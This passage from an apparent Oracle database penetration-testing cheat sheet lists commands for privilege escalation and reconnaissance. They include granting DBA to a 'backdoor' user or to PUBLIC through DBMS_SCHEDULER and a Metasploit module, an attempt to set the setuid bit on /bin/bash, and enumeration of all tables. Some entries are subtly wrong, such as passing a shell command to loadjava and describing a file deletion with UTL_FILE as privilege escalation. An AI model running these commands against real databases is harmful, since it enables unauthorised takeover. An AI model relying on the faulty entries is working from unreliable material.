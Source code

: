 #### Exploiting Vulnerable Stored Procedures

*   **Tool:** \[\[SQL Plus]]

    ```sql
    EXEC dbms_scheduler.create_job('exploit_job', 'PLSQL_BLOCK', 'GRANT DBA TO backdoor');
    ```
* **Description:** Exploits a vulnerable stored procedure to escalate privileges within the database.

#### Exploiting Oracle Packages

*   **Tool:** \[\[SQL Plus]]

    ```sql
    exec SYS.DBMS_JAVA.loadjava('chmod u+s /bin/bash');
    ```
* **Description:** Exploit vulnerable Oracle packages to escalate privileges within the database.

#### Gaining DBA Privileges

*   **Tool:** \[\[Metasploit]]

    ```bash
    use auxiliary/admin/oracle/oracle_sql
    set RHOSTS <target_ip>
    set SID orcl
    set SQL "GRANT DBA TO PUBLIC"
    run
    ```
* **Description:** Execute SQL commands to escalate privileges by granting DBA roles to public.

#### Privilege Escalation via UTL\_FILE

* **Tool:** \[\[SQL Plus]]

```bash
EXEC UTL_FILE.FREMOVE('/tmp', 'exploit.sql');
```

* **Description:** Exploits the UTL\_FILE package to gain elevated privileges on the Oracle database.

### Internal Reconnaissance

#### Database Schema Enumeration

*   **Tool:** \[\[SQL Plus]]

    ```sql
    SELECT * FROM all_tables;
    ```
* **Description:** Enumerates all tables within the Oracle database to identify sensitive data.

#### User Enumeration
